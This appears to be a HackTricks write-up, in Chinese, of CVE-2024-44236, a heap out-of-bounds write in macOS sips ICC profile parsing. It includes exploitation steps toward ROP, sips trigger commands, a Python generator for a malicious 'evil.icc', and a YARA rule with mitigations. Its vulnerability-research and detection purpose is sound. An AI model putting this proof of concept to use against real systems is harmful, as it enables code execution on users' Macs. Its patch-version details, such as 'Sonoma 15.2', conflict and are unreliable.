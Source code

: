 # WWW2Exec - sips ICC Profile Out-of-Bounds Write (CVE-2024-44236)

{{#include ../../banners/hacktricks-training.md}}

## 概述

Apple macOS **可脚本图像处理系统** (`sips`) ICC 配置文件解析器中的一个越界 **零写** 漏洞 (macOS 15.0.1, `sips-307`) 允许攻击者破坏堆元数据并将原语转变为完整的代码执行。该漏洞位于 `lutAToBType` (`mAB `) 和 `lutBToAType` (`mBA `) 标签的 `offsetToCLUT` 字段的处理。如果攻击者将 `offsetToCLUT == tagDataSize`，解析器会在堆缓冲区的末尾 **擦除 16 字节**。堆喷射使攻击者能够将分配器结构或稍后将被解引用的 C++ 指针归零，从而产生 **任意写入到执行** 链 (CVE-2024-44236, CVSS 7.8)。

> Apple 在 macOS Sonoma 15.2 / Ventura 14.7.1 中修复了该漏洞 (2024年10月30日)。第二个变种 (CVE-2025-24185) 于 2025年4月1日在 macOS 15.5 和 iOS/iPadOS 18.5 中修复。

## 易受攻击的代码
```c
// Pseudocode extracted from sub_1000194D0 in sips-307 (macOS 15.0.1)
if (offsetToCLUT <= tagDataSize) {
// BAD ➜ zero 16 bytes starting *at* offsetToCLUT
for (uint32_t i = offsetToCLUT; i < offsetToCLUT + 16; i++)
buffer[i] = 0;            // no bounds check vs allocated size!
}
```
## 利用步骤

1. **制作恶意的 `.icc` 配置文件**

* 设置一个最小的 ICC 头 (`acsp`) 并添加一个 `mAB ` (或 `mBA `) 标签。
* 配置标签表，使 **`offsetToCLUT` 等于标签大小** (`tagDataSize`)。
* 将攻击者控制的数据放置在标签之后，以便 16 次零写入覆盖分配器元数据。

2. **通过任何触及配置文件的 sips 操作触发解析**

```bash
# 验证路径（不需要输出文件）
sips --verifyColor evil.icc
# 或在转换嵌入配置文件的图像时隐式触发
sips -s format png payload.jpg --out out.png
```

3. **堆元数据损坏 ➜ 任意写入 ➜ ROP**
在苹果默认的 **`nano_zone`** 分配器中，16 字节槽的元数据位于对齐的 0x1000 块 **之后**。通过将配置文件的标签放置在这样的块的末尾，16 次零写入会破坏 `meta->slot_B`。在随后的 `free` 之后，受污染的指针被排入小型空闲列表，使攻击者 **能够在任意地址分配一个假对象** 并覆盖 sips 使用的 C++ vtable 指针，最终将执行权转移到存储在恶意 ICC 缓冲区中的 ROP 链。

### 快速 PoC 生成器 (Python 3)
```python
#!/usr/bin/env python3
import struct, sys

HDR = b'acsp'.ljust(128, b'\0')          # ICC header (magic + padding)
TAGS = [(b'mAB ', 132, 52)]              # one tag directly after header
profile  = HDR
profile += struct.pack('>I', len(TAGS))  # tag count
profile += b''.join(struct.pack('>4sII', *t) for t in TAGS)

mab = bytearray(52)                      # tag payload (52 bytes)
struct.pack_into('>I', mab, 44, 52)      # offsetToCLUT = size (OOB start)
profile += mab

open('evil.icc', 'wb').write(profile)
print('[+] Wrote evil.icc (%d bytes)' % len(profile))
```
### YARA 检测规则
```yara
rule ICC_mAB_offsetToCLUT_anomaly
{
meta:
description = "Detect CLUT offset equal to tag length in mAB/mBA (CVE-2024-44236)"
author       = "HackTricks"
strings:
$magic = { 61 63 73 70 }          // 'acsp'
$mab   = { 6D 41 42 20 }          // 'mAB '
$mba   = { 6D 42 41 20 }          // 'mBA '
condition:
$magic at 0 and
for any i in (0 .. 10):           // up to 10 tags
(
($mab at 132 + 12*i or $mba at 132 + 12*i) and
uint32(132 + 12*i + 4) == uint32(132 + 12*i + 8) // offset == size
)
}
```
## 影响

打开或处理精心制作的 ICC 配置文件会导致在调用用户的上下文中发生远程 **任意代码执行**（预览、QuickLook、Safari 图像渲染、邮件附件等），绕过 Gatekeeper，因为该配置文件可以嵌入在其他无害的图像中（PNG/JPEG/TIFF）。

## 检测与缓解

* **打补丁！** 确保主机运行 macOS ≥ 15.2 / 14.7.1（或 iOS/iPadOS ≥ 18.1）。
* 在电子邮件网关和 EDR 解决方案上部署上述 YARA 规则。
* 在对不受信任的文件进行进一步处理之前，使用 `exiftool -icc_profile= -overwrite_original <file>` 删除或清理嵌入的 ICC 配置文件。
* 通过在分析未知内容时在沙箱“透明度与现代化”虚拟机中运行预览/QuickLook 来增强安全性。
* 对于 DFIR，查看统一日志中沙箱应用程序最近执行的 `sips --verifyColor` 或 `ColorSync` 库加载。

## 参考

* Trend Micro Zero Day Initiative 通告 ZDI-24-1445 – “Apple macOS ICC 配置文件解析越界写入远程代码执行 (CVE-2024-44236)”
https://www.zerodayinitiative.com/advisories/ZDI-24-1445/
* Apple 安全更新 HT213981 “关于 macOS Sonoma 15.2 的安全内容”
https://support.apple.com/en-us/HT213981

{{#include ../../banners/hacktricks-training.md}}
